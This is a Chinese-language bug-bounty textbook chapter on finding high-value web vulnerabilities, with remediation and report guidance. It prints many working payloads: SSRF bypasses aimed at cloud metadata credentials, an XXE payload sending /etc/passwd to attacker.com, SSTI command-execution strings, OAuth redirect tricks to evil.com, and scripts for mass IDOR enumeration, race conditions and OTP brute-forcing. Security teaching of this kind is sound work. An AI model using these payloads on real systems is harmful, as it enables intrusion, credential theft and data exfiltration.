




## 27.2 高价值漏洞挖掘技巧

在Bug Bounty领域，"找到漏洞"只是第一步，"找到对的漏洞"才是决定收入的关键。一个SSRF导致AWS凭证泄露可能价值10,000美元，而一个普通XSS可能只值100美元。本节将系统化地讲解如何识别、定位、验证和最大化高价值漏洞，建立一套从侦察到提交的完整挖掘方法论。

### 27.2.1 漏洞价值评估框架

在投入时间挖掘之前，理解漏洞的价值分级是效率的前提。不同漏洞类型的赏金差异巨大，掌握价值评估框架能帮助你合理分配精力。

**漏洞价值矩阵**

| 漏洞类型 | 典型赏金范围 | 评级 | 自动化难度 | 推荐优先级 |
|----------|-------------|------|-----------|-----------|
| SSRF（云环境） | $500-$10,000+ | 严重 | 中等 | ⭐⭐⭐⭐⭐ |
| 认证/授权绕过 | $300-$8,000 | 高-严重 | 困难 | ⭐⭐⭐⭐⭐ |
| IDOR（批量数据） | $200-$5,000 | 高 | 较容易 | ⭐⭐⭐⭐ |
| 业务逻辑漏洞 | $500-$10,000+ | 高-严重 | 极困难 | ⭐⭐⭐⭐ |
| SQL注入 | $200-$5,000 | 严重 | 较容易 | ⭐⭐⭐⭐ |
| RCE（远程代码执行） | $1,000-$25,000+ | 严重 | 困难 | ⭐⭐⭐⭐⭐ |
| XXE（外部实体注入） | $300-$3,000 | 中-高 | 较容易 | ⭐⭐⭐ |
| SSTI（模板注入） | $500-$5,000 | 高-严重 | 中等 | ⭐⭐⭐⭐ |
| 路径遍历 | $100-$2,000 | 中-高 | 较容易 | ⭐⭐⭐ |
| 反序列化 | $500-$10,000+ | 严重 | 困难 | ⭐⭐⭐⭐ |
| 存储型XSS | $100-$2,000 | 中-高 | 中等 | ⭐⭐⭐ |
| CSRF | $50-$500 | 低-中 | 较容易 | ⭐⭐ |

**价值评估的三个关键维度**：

1. **影响范围（Impact）**：漏洞能影响多少用户？单用户影响 vs 管理员影响 vs 全站影响
2. **数据敏感度（Data Sensitivity）**：能获取什么数据？公开信息 vs PII vs 支付信息 vs 凭证
3. **利用链潜力（Chaining Potential）**：单独漏洞 vs 可以组合形成更高级攻击



### 27.2.2 SSRF——高价值漏洞之王

SSRF之所以成为Bug Bounty中价值最高的漏洞类型之一，是因为它是一座桥梁——从外部Web应用打通到内部网络、云基础设施甚至远程代码执行的桥梁。一个看似无害的"URL预览"功能，如果存在SSRF，可能直接暴露AWS IAM角色凭证，价值轻松达到数千美元。

**攻击原理与攻击面分析**

SSRF的核心原理是：应用程序接受了用户提供的URL或网络资源地址，在服务端发起请求时未做充分验证，导致攻击者可以操控服务端访问内部资源。

常见攻击面清单：

| 攻击面 | 触发方式 | 检测信号 | 典型价值 |
|-------|---------|---------|---------|
| URL预览/抓取 | 输入URL后服务端访问 | 响应中包含目标页面内容 | 高 |
| PDF/文档生成 | 上传或链接到URL生成PDF | 下载的PDF中包含内部页面 | 高 |
| Webhook配置 | 添加回调URL | 服务端向配置的URL发送请求 | 高 |
| 图片/文件加载 | `` 类型 | 服务端代理加载远程图片 | 中 |
| 文件导入 | 从URL导入数据 | 支持CSV/JSON等格式URL导入 | 高 |
| RSS/Atom订阅 | 输入feed URL | 服务端定时拉取feed | 中 |
| 邮件中的链接预览 | 邮件客户端预览URL | 服务端爬取链接内容 | 高 |
| OAuth回调 | 第三方登录流程 | 服务端验证redirect_uri | 中-高 |

**系统化SSRF测试流程**

第一步：识别所有服务端发起请求的功能点。不仅仅关注显式的"URL输入"，还要关注隐式的——比如"导入数据"功能可能从用户指定的URL拉取数据，"生成缩略图"功能可能从远程加载图片。

第二步：确认SSRF是否存在。使用最简单的payload触发：

```text
# 基础验证 - 确认请求是否发出
http://YOUR-BURP-COLLABORATOR-server.burpcollaborator.net
# 或使用 dnslog.cn、requestbin.com 等工具

# 通过DNS请求确认
http://test.your-domain.dnslog.cn
```

如果在DNS日志或HTTP日志中看到来自目标服务器的请求，SSRF确认存在。

第三步：确定内网可达性。逐步尝试访问内部资源：

```bash
# 云环境元数据端点（最高价值目标）
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE-NAME

# 本地回环测试
http://127.0.0.1
http://localhost
http://[::1]          # IPv6 localhost
http://0.0.0.0

# 内网服务探测
http://192.168.1.1    # 常见网关
http://10.0.0.1       # 内网地址
http://172.16.0.1     # 内网地址
```

第四步：评估影响并升级。SSRF的真正价值在于"从SSRF到RCE"的升级路径：

- **AWS环境**：获取IAM角色临时凭证 → 访问S3存储桶/RDS数据库/Lambda函数
- **GCP环境**：获取Service Account Token → 访问Google Cloud API
- **Azure环境**：获取Managed Identity Token → 访问Azure资源
- **本地环境**：通过gopher协议操作Redis/Memcached → 写入WebShell

**SSRF绕过技巧大全**

当目标存在基本的SSRF防护时（如黑名单过滤内网IP），需要使用各种绕过技巧：

```text
# ====== IP地址混淆技巧 ======

# 十六进制表示
http://0x7f000001          # 127.0.0.1

# 八进制表示
http://0177.0.0.1          # 127.0.0.1（前缀0表示八进制）
http://00000177.0000.0000.0001

# 十进制表示
http://2130706433          # 127.0.0.1

# 混合进制表示
http://0x7f.1               # 127.0.0.1
http://0177.0.1             # 127.0.0.1
http://127.1               # 127.0.0.1
http://0                   # 0.0.0.0

# 特殊别名
http://localtest.me        # 解析到127.0.0.1
http://127.0.0.1.nip.io    # nip.io 动态DNS
http://spoofed.burpcollaborator.net  # Burp Collaborator

# ====== URL解析差异绕过 ======

# @ 符号绕过（某些解析器将@前的部分视为用户名）
http://127.0.0.1@attacker.com
http://attacker.com#@127.0.0.1

# 反斜杠绕过
http://attacker.com\@127.0.0.1

# 竖线/管道绕过
http://127.0.0.1|attacker.com

# 重定向绕过
http://attacker.com/redirect?url=http://127.0.0.1

# ====== DNS重绑定绕过 ======
# 注册域名，配置极短TTL，第一次解析到合法IP，第二次解析到127.0.0.1
# 工具：rbndr.us, rebind.attacker.com
# 详见：https://github.com/taviso/rbndr

# ====== 协议滥用 ======
file:///etc/passwd
gopher://127.0.0.1:25/     # SMTP
gopher://127.0.0.1:6379/   # Redis
dict://127.0.0.1:6379/     # Redis
tftp://127.0.0.1:69/       # TFTP

# ====== 端口扫描 ======
http://127.0.0.1:22/       # SSH
http://127.0.0.1:3306/     # MySQL
http://127.0.0.1:6379/     # Redis
http://127.0.0.1:8080/     # 内网Web服务
```

**SSRF测试推荐工具**：

| 工具 | 用途 | 链接 |
|------|------|------|
| Burp Collaborator | 确认出站请求 | Burp Suite内置 |
| SSRFmap | 自动化SSRF利用 | github.com/swisskyrepo/SSRFmap |
| Gopherus | 生成gopher payload | github.com/tarunkant/Gopherus |
| Interactsh | SSRF确认与数据外带 | github.com/projectdiscovery/interactsh |
| dnslog.cn | 中文DNS日志平台 | dnslog.cn |

### 27.2.3 IDOR——最容易发现的高价值漏洞

IDOR（不安全的直接对象引用）是Bug Bounty中出现频率最高、最容易批量测试的访问控制类漏洞。其本质是：应用程序使用用户可预测的标识符来引用对象（如数据库ID），但未验证请求者是否有权访问该对象。

**IDOR挖掘的核心思路**

IDOR的核心不在于"修改ID"这一动作本身，而在于理解整个数据访问模型。高级IDOR挖掘需要回答三个问题：

1. **对象标识符是什么格式？**——数字ID、UUID、文件名、哈希值、Base64编码？
2. **对象之间是否存在规律？**——顺序递增、可预测的模式、时间戳相关？
3. **权限验证在哪个环节？**——前端校验、后端校验、还是两者都无？

**IDOR分类与测试策略**



**IDOR测试实操方法**

1. **数字ID篡改**——最基础也最常见：

```yaml
# 原始请求
GET /api/v1/users/12345/profile HTTP/1.1
Authorization: Bearer eyJhbGci...（用户A的token）

# 测试垂直IDOR（换用低权限用户的token）
GET /api/v1/users/12345/profile HTTP/1.1
Authorization: Bearer eyJhbGci...（用户B的token）

# 测试水平IDOR（修改ID参数）
GET /api/v1/users/12346/profile HTTP/1.1
Authorization: Bearer eyJhbGci...（用户A的token）
```

2. **UUID/不可预测ID**——并非安全的替代方案：

```text
# 有些系统同时暴露UUID和数字ID
GET /api/v1/users/uuid-550e8400-e29b/profile
# 尝试从其他接口获取UUID：
# - 用户列表接口
# - 分享链接
# - 前端JavaScript中的硬编码
# - API响应头中的X-Request-Id等
```

3. **HTTP方法切换**——不同方法可能有不同的权限控制：

```sql
GET /api/orders/12345    → 403 Forbidden
POST /api/orders/12345   → 200 OK（权限检查缺失）
PUT /api/orders/12345    → 200 OK
DELETE /api/orders/12345 → 200 OK
```

4. **参数位置变换**——某些API对不同位置的参数有不同处理：

```text
# 参数在URL中
GET /api/users?user_id=12345

# 参数在Body中
POST /api/users
{"user_id": 12345}

# 参数在自定义头中
GET /api/users
X-User-Id: 12345
```

5. **批量IDOR自动化测试**——使用Burp Intruder或自定义脚本：

```python
import requests
import concurrent.futures

def test_idor(base_url, target_id, token):
    """测试单个ID是否存在IDOR"""
    headers = {"Authorization": f"Bearer {token}"}
    url = f"{base_url}/api/v1/orders/{target_id}"
    try:
        resp = requests.get(url, headers=headers, timeout=5)
        if resp.status_code == 200 and "unauthorized" not in resp.text.lower():
            return {"id": target_id, "status": "VULNERABLE", "size": len(resp.text)}
        return {"id": target_id, "status": resp.status_code}
    except Exception as e:
        return {"id": target_id, "status": "ERROR", "detail": str(e)}

# 批量测试ID范围
base_url = "https://target.com"
token = "YOUR_TOKEN"
results = []

with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    futures = {
        executor.submit(test_idor, base_url, i, token): i 
        for i in range(10000, 10100)
    }
    for future in concurrent.futures.as_completed(futures):
        result = future.result()
        if result.get("status") == "VULNERABLE":
            print(f"[!] IDOR found: ID={result['id']}, size={result['size']}")
            results.append(result)

print(f"\nTotal IDOR vulnerabilities found: {len(results)}")
```

**IDOR高价值场景识别**

并非所有IDOR都值得报告。以下场景的IDOR通常价值最高：

- **批量用户数据泄露**：一次测试可以获取大量PII（姓名、邮箱、手机号、地址）
- **支付/金融数据**：订单金额、支付记录、银行账户信息
- **管理员功能**：通过IDOR访问管理后台API
- **跨租户访问**：在SaaS平台中访问其他企业的数据（通常评为严重）
- **文件下载**：通过修改文件ID下载其他用户的私有文件

### 27.2.4 认证与授权绕过

认证绕过漏洞的赏金通常很高，因为它们直接威胁到整个系统的安全根基。一个能够绕过登录的漏洞，等同于可以冒充任何用户。

**密码重置流程漏洞挖掘**

密码重置是认证绕过的高频漏洞点，因为它涉及多个环节，每个环节都可能引入缺陷：



**密码重置绕过实操**：

```text
# 漏洞1：Token绑定不严格
# 步骤：用A的邮箱请求重置，获取token
# 然后用B的邮箱请求重置，但使用A的token
POST /api/reset-password
{
    "email": "victim@example.com",
    "token": "从 attacker@example.com 重置获取的token",
    "new_password": "hacked123"
}

# 漏洞2：响应中泄露重置Token
# 检查重置请求的API响应
POST /api/forgot-password
{
    "email": "victim@example.com"
}

# 如果响应包含：
{
    "message": "Password reset email sent",
    "debug_token": "abc123def456"  # ← 信息泄露
}

# 漏洞3：客户端验证绕过
# 前端要求输入"发送到邮箱的验证码"
# 但直接调用后端API时跳过验证码验证
POST /api/set-new-password
{
    "token": "abc123",
    "new_password": "hacked123"
    # 不需要验证码参数
}
```

**MFA/2FA绕过技巧**：

```text
# 方法1：暴力破解6位TOTP码
# 6位数字只有100万种组合，可在约10分钟内暴力破解
for code in range(000000, 999999):
    requests.post("/api/verify-otp", json={"code": code})

# 方法2：绕过MFA检查
# 在完成MFA验证后的请求中，不发送MFA相关的Cookie/Header
# 有时后端不会二次验证MFA状态
GET /api/account/settings HTTP/1.1
# 移除 X-MFA-Verified: true 头
# 如果仍然返回200，说明MFA验证未强制执行

# 方法3：重放旧的MFA验证Token
# 在MFA验证成功后，保存该请求
# 尝试在不同会话中重放该请求
```

**OAuth流程攻击**：

OAuth是现代Web应用最常用的第三方登录机制，但其实现中的漏洞可能直接导致账户接管：

```text
# redirect_uri篡改 - 窃取授权码
# 注册时：https://legitimate-app.com/callback
# 攻击时尝试：
https://legitimate-app.com/callback/../evil.com
https://legitimate-app.com/callback?next=https://evil.com
https://evil.legitimate-app.com/callback  # 子域名劫持
https://legitimate-app.com.attacker.com/callback  # 域名混淆
https://legitimate-app.com/callback@evil.com  # @符号绕过

# state参数攻击
# 如果state参数可预测或可选，攻击者可以发起CSRF攻击
# 诱导受害者使用攻击者的OAuth授权

# PKCE绕过
# 如果服务端未验证code_verifier，攻击者可以窃取auth_code并使用自己的code_verifier换Token
```

### 27.2.5 业务逻辑漏洞——自动化最难发现的金矿

业务逻辑漏洞是Bug Bounty中奖金最丰厚、竞争最小的领域。原因很简单：这些漏洞无法被自动化扫描器发现，只能依靠人类对业务流程的深入理解来挖掘。一个理解业务流程的安全研究员，可能在几小时内找到一个价值数千美元的逻辑漏洞。

**竞态条件（Race Condition）挖掘**

竞态条件发生在系统在并发执行多个操作时，未能正确处理同步，导致非预期的行为。这是Bug Bounty中最高价值的漏洞类型之一，因为单个竞态条件可能造成严重的财务影响。

```python
import requests
import threading
import time

class RaceConditionTester:
    """竞态条件测试器"""
    
    def __init__(self, target_url, auth_token):
        self.target_url = target_url
        self.headers = {"Authorization": f"Bearer {auth_token}"}
        self.results = []
        self.lock = threading.Lock()
    
    def send_request(self, payload, request_id):
        """发送单个请求"""
        try:
            start = time.time()
            resp = requests.post(
                self.target_url, 
                json=payload, 
                headers=self.headers,
                timeout=10
            )
            elapsed = time.time() - start
            
            with self.lock:
                self.results.append({
                    "id": request_id,
                    "status": resp.status_code,
                    "response": resp.text[:200],
                    "time": round(elapsed, 3)
                })
        except Exception as e:
            with self.lock:
                self.results.append({
                    "id": request_id,
                    "status": "ERROR",
                    "detail": str(e)
                })
    
    def test_race(self, payload, concurrent_requests=20):
        """并发发送多个请求测试竞态条件"""
        threads = []
        for i in range(concurrent_requests):
            t = threading.Thread(
                target=self.send_request,
                args=(payload.copy(), i)
            )
            threads.append(t)
        
        # 同时启动所有线程
        start_time = time.time()
        for t in threads:
            t.start()
        for t in threads:
            t.join()
        total_time = time.time() - start_time
        
        return self.analyze_results(total_time)
    
    def analyze_results(self, total_time):
        """分析结果，判断是否存在竞态条件"""
        status_codes = [r["status"] for r in self.results if "status" in r]
        
        analysis = {
            "total_requests": len(self.results),
            "total_time": round(total_time, 3),
            "status_distribution": {},
            "possible_race_condition": False
        }
        
        for code in status_codes:
            analysis["status_distribution"][code] = \
                analysis["status_distribution"].get(code, 0) + 1
        
        # 如果有多个请求成功（如多次扣款、多次使用优惠券），可能存在竞态条件
        success_count = analysis["status_distribution"].get(200, 0)
        if success_count > 1:
            analysis["possible_race_condition"] = True
            analysis["risk_level"] = "HIGH"
        
        return analysis

# 使用示例：测试优惠券重复使用
tester = RaceConditionTester(
    "https://target.com/api/apply-coupon",
    "your-auth-token"
)
payload = {
    "coupon_code": "DISCOUNT50",
    "order_id": "12345"
}
result = tester.test_race(payload, concurrent_requests=20)
print(f"竞态条件检测结果: {result}")
```

竞态条件的高价值测试场景：

| 场景 | 具体操作 | 潜在影响 | 预估赏金 |
|------|---------|---------|---------|
| 重复使用优惠券 | 并发使用同一优惠券 | 商家财务损失 | $500-$3,000 |
| 重复使用邀请码 | 并发使用同一邀请码 | 奖励金重复发放 | $200-$1,000 |
| 重复购买限量商品 | 并发下单抢购 | 超卖/库存异常 | $200-$2,000 |
| 重复投票/抽奖 | 并发提交投票 | 结果被操纵 | $100-$1,000 |
| 重复提现 | 并发提交提现请求 | 资金被多次转出 | $1,000-$10,000+ |

**价格篡改测试清单**

价格篡改是电商和金融类平台最常见的业务逻辑漏洞：

```bash
# ====== 基础价格篡改 ======
# 修改商品价格参数
POST /api/create-order
{"product_id": "123", "price": 0.01}  # 原价 ¥999

# 修改折扣参数
POST /api/apply-discount
{"discount_percent": 100}  # 100%折扣

# 修改优惠券参数
POST /api/redeem-coupon
{"coupon_id": "abc", "value": 99999}  # 篡改优惠券面额

# ====== 高级价格篡改 ======
# 负数价格（系统可能将负数视为退款）
POST /api/create-order
{"product_id": "123", "quantity": -1, "price": 999}
# 如果系统计算 total = price × quantity = -999
# 可能导致反向退款

# 数量溢出
POST /api/create-order
{"product_id": "123", "quantity": 99999999}
# 测试是否导致整数溢出（32位系统最大值2147483647）

# 货币单位篡改
POST /api/create-order
{"product_id": "123", "currency": "IDR"}  # 印尼盾
# 原价 100 USD = 1,500,000 IDR
# 如果系统不做汇率转换，可能以100 IDR成交

# 阶梯价格绕过
# 如果购买10个以上有折扣，测试小数数量
POST /api/create-order
{"product_id": "123", "quantity": 10.5}
# 或测试字符串
POST /api/create-order
{"product_id": "123", "quantity": "10a"}
```

**流程绕过测试**

流程绕过是指跳过系统中必要的验证或确认步骤：

```text
# 跳过邮箱验证直接注册
POST /api/register
{"email": "new@user.com", "password": "pass123"}
# 如果直接返回成功，不发验证邮件

# 跳过身份验证步骤
# 某些系统要求用户先上传身份证照片再开通某些功能
# 测试是否可以直接调用开通API跳过验证

# 跳过支付步骤
POST /api/complete-order
{"order_id": "123", "payment_status": "paid"}
# 直接修改支付状态参数

# 跳过审批流程
POST /api/submit-withdrawal
{"amount": 50000, "status": "approved"}  # 直接设置为已批准
```

### 27.2.6 XXE与SSTI——容易被忽视的高价值目标

**XXE（XML外部实体注入）测试方法**

XXE在现代Web应用中出现频率降低，但在特定场景中依然高价值——尤其是处理XML格式的文件上传、SOAP API和Office文档解析时。

```xml
<!-- 基础XXE测试 - 读取本地文件 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>

<!-- 带外数据提取（OOB-XXE） - 当响应不直接返回时 -->
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root>test</root>

<!-- evil.dtd 文件内容 -->
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;

<!-- XInclude攻击（无法控制DOCTYPE时） -->
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**SSTI（服务端模板注入）测试方法**

SSTI检测的核心原理是注入模板引擎的特殊表达式，观察服务端是否执行了计算：

```python
# 检测是否存活
{{7*7}}

# 如果返回49，说明存在SSTI
# 接下来确定模板引擎类型：

# Jinja2 (Python/Flask)
{{config}}
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

# Twig (PHP)
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}

# FreeMarker (Java)
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# 通用检测payload
${7*7}        # 大多数模板引擎
#{7*7}        # Ruby/Thymeleaf
<%= 7*7 %>    # ERB (Ruby)
```

### 27.2.7 高效测试工作流

将上述漏洞类型的测试整合为一个系统化的工作流，最大化你的产出效率：



**Phase 1 - 快速侦察**：

目标是在1-2小时内确定这个目标是否值得深入投入。使用自动化工具快速扫描：

```bash
# 子域名枚举
subfinder -d target.com -o subdomains.txt
amass enum -d target.com -o amass_subdomains.txt

# 端口扫描（只扫常见端口）
nmap -sV -T4 -p 80,443,8080,8443,3000,5000 -iL subdomains.txt

# 技术栈识别
whatweb https://target.com

# 查找敏感文件
gobuster dir -u https://target.com -w /usr/share/wordlists/common.txt -x php,asp,jsp
```

**Phase 2 - 攻击面映射**：

这是最关键的阶段——理解目标的应用架构和数据流：

1. **梳理所有API端点**：使用Burp的站点地图，或手动浏览所有功能
2. **关注数据输入点**：每个输入点都是潜在的攻击向量
3. **分析认证机制**：JWT、Session、OAuth——每种都有已知攻击模式
4. **追踪数据流**：用户输入如何流向数据库、如何被处理、如何返回

**Phase 3 - 深入测试**：

按价值矩阵优先级排列测试顺序：

| 优先级 | 测试类型 | 时间投入 | 预期产出 |
|--------|---------|---------|---------|
| P0 | SSRF（云环境） | 2-3小时 | $500-$10,000 |
| P1 | IDOR（批量数据） | 1-2小时 | $200-$5,000 |
| P2 | 认证绕过 | 2-4小时 | $300-$8,000 |
| P3 | 业务逻辑 | 3-6小时 | $500-$10,000 |
| P4 | XXE/SSTI | 1-2小时 | $300-$5,000 |
| P5 | SQL注入 | 1-2小时 | $200-$5,000 |

### 27.2.8 影响最大化——让一个漏洞价值翻倍

找到漏洞只是第一步，将其影响最大化才能获得最高赏金。以下是提升漏洞报告价值的核心策略：

**1. 从单点突破到全面影响**

```text
# 不要只报告："SSRF可以读取 /etc/passwd"
# 而是展示完整的影响链：
# 
# Step 1: SSRF → 读取AWS元数据
# Step 2: 获取IAM角色临时凭证
# Step 3: 使用凭证访问S3存储桶
# Step 4: 发现存储桶包含所有用户的PII数据
# Step 5: 展示可以批量导出用户数据
#
# 影响：全站用户数据泄露（假设500万用户）
# 建议评级：Critical（CVSS 9.8）
```

**2. 补充修复建议**

在报告中加入具体的修复建议，这会让安全团队更重视你的报告，也有助于提升你的信誉等级：

```text
# 修复建议模板
## 修复建议

### 短期修复（立即执行）
1. 在SSRF防护中添加对内网IP的白名单验证
2. 禁止使用file://和gopher://协议
3. 实施URL白名单机制

### 长期修复（系统性改进）
1. 将Web服务器移入独立VPC，与内网资源隔离
2. 实施零信任网络架构
3. 启用AWS IMDSv2强制使用Token访问元数据
4. 为Web服务器配置最小权限IAM角色

### 参考资料
- OWASP SSRF Prevention Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html
```

**3. 提供清晰的复现步骤**

```text
## 复现步骤

1. 登录任意普通用户账户
2. 导航至 "Tools → URL Preview"
3. 输入以下URL：
   http://169.254.169.254/latest/meta-data/iam/security-credentials/
4. 点击 "Preview"
5. 观察响应中包含的IAM角色信息：

{
  "Code": "Success",
  "LastUpdated": "2024-01-15T10:30:00Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "YOUR_AWS_KEY_ID",
  "SecretAccessKey": "YOUR_AWS_SECRET_KEY",
  "Token": "FwoGZXIvYXdzEB..."
}

6. 使用获取的凭证可以访问AWS S3、RDS等资源
```

### 27.2.9 常见误区与避坑指南

在Bug Bounty挖掘过程中，以下是最常见的错误：

| 误区 | 正确做法 |
|------|---------|
| 只测试最常见的漏洞（XSS、SQL注入） | 根据价值矩阵优先测试高赏金类型 |
| 发现低价值漏洞就立即报告 | 先尝试升级为更高影响的漏洞 |
| 使用相同的测试方法对待所有目标 | 根据目标的技术栈和业务特点定制测试 |
| 忽略错误消息和异常响应 | 仔细分析每个异常，它们可能泄露内部信息 |
| 在报告中只描述漏洞不描述影响 | 用攻击链展示完整的安全影响 |
| 自动化扫描后不手动验证 | 所有发现必须手动验证并截图 |
| 同时测试太多目标 | 深入测试少数高价值目标比广撒网更有效 |
| 忽略API文档和开发者工具 | API文档常暴露未保护的端点 |
| 只关注Web界面 | 移动端API、管理后台、内部工具常有更多漏洞 |

### 27.2.10 工具箱总结

高价值漏洞挖掘的核心工具组合：

| 类别 | 工具 | 用途 | 优先级 |
|------|------|------|--------|
| 抓包 | Burp Suite Pro | HTTP代理、扫描、Intruder | 必备 |
| 侦察 | subfinder + amass | 子域名枚举 | 必备 |
| 目录 | ffuf / gobuster | 目录和参数发现 | 必备 |
| SSRF | SSRFmap + Gopherus | SSRF自动化利用 | 推荐 |
| JWT | jwt_tool | JWT攻击 | 推荐 |
| IDOR | Turbo Intruder | 并发IDOR测试 | 推荐 |
| XXE | XXEinjector | XXE自动化测试 | 可选 |
| SSTI | tplmap | SSTI自动化利用 | 可选 |
| 竞态 | race-poc | 竞态条件检测 | 可选 |
| DNS | Interactsh / Burp Collaborator | 带外数据确认 | 必备 |

---

**本节核心要点**：高价值漏洞挖掘不是盲目测试，而是一个系统化的方法论——先评估漏洞价值，再按优先级分配精力，最后通过影响最大化策略将每个发现的价值提升到极限。记住：一个深入挖掘的SSRF，远比找到十个普通XSS有价值。在Bug Bounty这条路上，质量和深度永远比数量更重要。
